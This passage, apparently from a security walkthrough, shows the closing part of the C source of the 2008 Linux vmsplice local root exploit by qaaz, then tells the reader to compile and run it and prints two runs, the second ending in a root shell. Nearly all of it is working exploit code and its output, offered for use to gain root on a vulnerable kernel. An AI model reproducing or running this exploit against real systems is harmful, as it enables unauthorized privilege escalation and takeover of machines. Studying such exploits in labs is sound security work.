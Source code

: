 	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);

	/*****/
	map_size -= 2 * PAGE_SIZE;
	if (munmap(map_addr + map_size, PAGE_SIZE) < 0)
		die("munmap", errno);

	/*****/
	if (pipe(pi) < 0) die("pipe", errno);
	close(pi[0]);

	iov.iov_base = map_addr;
	iov.iov_len  = ULONG_MAX;

	signal(SIGPIPE, exit_code);
	_vmsplice(pi[1], &iov, 1, 0);
	die("vmsplice", errno);
	return 0;
}

// milw0rm.com [2008-02-09]
[bob@barney tmp]$
</pre>

Compile and run the exploit. It make take several runs of the exploit to make it work:

<pre>
[bob@barney tmp]$ ./vmsplice 
-----------------------------------
 Linux vmsplice Local Root Exploit
 By qaaz
-----------------------------------
[+] mmap: 0x0 .. 0x1000
[+] page: 0x0
[+] page: 0x20
[+] mmap: 0x4000 .. 0x5000
[+] page: 0x4000
[+] page: 0x4020
[+] mmap: 0x1000 .. 0x2000
[+] page: 0x1000
[+] mmap: 0xb7f69000 .. 0xb7f9b000
[-] wtf
[bob@barney tmp]$ ./vmsplice 
-----------------------------------
 Linux vmsplice Local Root Exploit
 By qaaz
-----------------------------------
[+] mmap: 0x0 .. 0x1000
[+] page: 0x0
[+] page: 0x20
[+] mmap: 0x4000 .. 0x5000
[+] page: 0x4000
[+] page: 0x4020
[+] mmap: 0x1000 .. 0x2000
[+] page: 0x1000
[+] mmap: 0xb7f58000 .. 0xb7f8a000
[+] root
[root@barney tmp]# 
</pre>
